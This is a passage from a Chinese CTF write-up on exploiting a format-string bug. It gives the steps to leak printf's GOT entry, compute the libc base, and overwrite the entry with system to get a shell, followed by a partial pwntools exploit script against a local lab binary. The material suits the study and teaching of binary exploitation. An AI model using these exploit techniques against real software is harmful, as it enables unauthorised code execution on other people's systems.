> 注：这里由于是leak下来的二进制，没有偏移，我们需要手动rebase。
>
> ![rebase](https://mo-xiaoxi.github.io/img/post/Fmtstr/rebase.png)

得到printf@plt地址：

![printf](https://mo-xiaoxi.github.io/img/post/Fmtstr/printf.png)

接下来就是覆盖got表并获取shell的流程是（以覆盖printf的got表为例）：

1. 确定printf的plt地址
2. 通过泄露plt表中的指令内容确定对应的got表地址
3. 通过泄露的got表地址泄露printf函数的地址
4. 通过泄露的printf的函数地址确定libc基址，从而获得system地址
5. 使用格式化字符串的任意写功能将printf的got表中的地址修改为system的地址
6. send字符串“/bin/sh;”，那么在调用printf(“/bin/sh;”)的时候实际上调用的是system(“/bin/sh;”)，从而成功获取shell

### EXP

#### 本地EXP

PS: 考虑万一做不出来，就给Binary和libc，降低题目难度。

```python
#! /usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *

context.log_level = 'debug'
debug = 1
if debug:
	p = process('./leakmemory')
	libc = ELF('/lib/i386-linux-gnu/libc.so.6')

p.recv()
p.sendline('moxiaoxi')
p.recv()

elf = ELF('./leakmemory')

plt_printf = elf.symbols['printf']

got_printf = elf.got['printf']


libc_system = libc.symbols['system']
libc_printf = libc.symbols['printf']


# 获取printf的libc地址
leak_payload = "%8$s" + p32(got_printf)

p.sendline(leak_payload)
info = p.recv()
data = info[23:27]
print(data.encode('hex'))

# 计算system的libc地址
printf_addr = u32(data)
libc_base = printf_addr - libc_printf   

system_addr = libc_base + libc_system

# 生成payload
payload = fmtstr_payload(7, {got_printf: system_addr})
```